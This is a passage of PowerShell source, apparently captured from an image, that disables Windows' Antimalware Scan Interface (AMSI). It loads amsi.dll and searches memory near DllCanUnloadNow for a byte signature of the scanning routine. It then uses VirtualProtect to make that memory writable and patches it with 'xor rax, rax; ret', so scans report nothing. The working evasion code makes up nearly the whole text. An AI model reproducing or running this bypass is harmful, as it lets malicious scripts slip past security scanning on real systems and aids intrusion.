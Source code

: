 ```powershell

            while ($true) {
                [IntPtr]$address = [IntPtr]::Add($address, 1)
                If ([System.Runtime.InteropServices.Marshal]::ReadByte($address) -eq $egg.Get($count)) {
                    $count++
                    If ($count -eq $egg.Length) {
                        return [IntPtr]::Subtract($address, $egg.Length - 1)
                    }
                } Else { break }
            }
        }

        return $address
    }
}

[IntPtr]$hModule = [Win32API]::LoadLibrary("amsi.dll")
Write-Host "[+] AMSI DLL Handle: $hModule"

[IntPtr]$dllCanUnloadNowAddress = [Win32API]::GetProcAddress($hModule, "DllCanUnloadNow")
Write-Host "[+] DllCanUnloadNow address: $dllCanUnloadNowAddress"

If ([IntPtr]::Size -eq 8) {
    Write-Host "[+] 64-bits process"
    [byte[]]$egg = [byte[]] (
        0x4C, 0x8B, 0xDC,       # mov     r11,rsp
        0x49, 0x89, 0x5B, 0x08, # mov     qword ptr [r11+8],rbx
        0x49, 0x89, 0x6B, 0x10, # mov     qword ptr [r11+10h],rbp
        0x49, 0x89, 0x73, 0x18, # mov     qword ptr [r11+18h],rsi
        0x57,                   # push    rdi
        0x41, 0x56,             # push    r14
        0x41, 0x57,             # push    r15
        0x48, 0x83, 0xEC, 0x70  # sub     rsp,70h
    )
} Else {
	Write-Host "[+] 32-bits process"
    [byte[]]$egg = [byte[]] (
        0x8B, 0xFF,             # mov     edi,edi
        0x55,                   # push    ebp
        0x8B, 0xEC,             # mov     ebp,esp
        0x83, 0xEC, 0x18,       # sub     esp,18h
        0x53,                   # push    ebx
        0x56                    # push    esi
    )
}
[IntPtr]$targetedAddress = [Hunter]::FindAddress($dllCanUnloadNowAddress, $egg)
Write-Host "[+] Targeted address: $targetedAddress"

$oldProtectionBuffer = 0
[Win32API]::VirtualProtect($targetedAddress, [uint32]2, 4, [ref]$oldProtectionBuffer) | Out-Null

$patch = [byte[]] (
    0x31, 0xC0,    # xor rax, rax
    0xC3           # ret
)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $targetedAddress, 3)

$oldprotect = 0
[Win32API]::VirtualProtect($targetedAddress, [uint32]2, $oldProtectionBuffer, [ref]$oldprotect) | Out-Null
```
